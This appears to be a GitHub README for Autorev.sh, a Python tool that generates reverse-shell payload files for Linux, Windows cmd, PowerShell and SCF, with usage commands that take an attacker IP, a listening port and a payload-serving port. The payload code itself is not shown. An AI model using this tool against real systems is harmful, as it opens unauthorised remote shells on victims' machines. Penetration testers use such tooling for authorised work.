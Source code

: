 <div align="center">

# Autorev.sh
  
![banner](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

# Usage

## Generating linux
  
<div align="left">

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

<div align="center">
  
![linux](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

<div align="left">
  
```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![winc](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

<div align="center">
  
## Generating Windows ps1
  
<div align="left">

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![winp](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

<div align="center">
  
### Generating SCF
  
<div align="left">

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![scf generator](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) 

<div align="center">
  
> All Usage commands will be also generated and print according to the given switches

## HELP Menu
  
<div align="left">

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
  
![help menu](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_help.png)
  

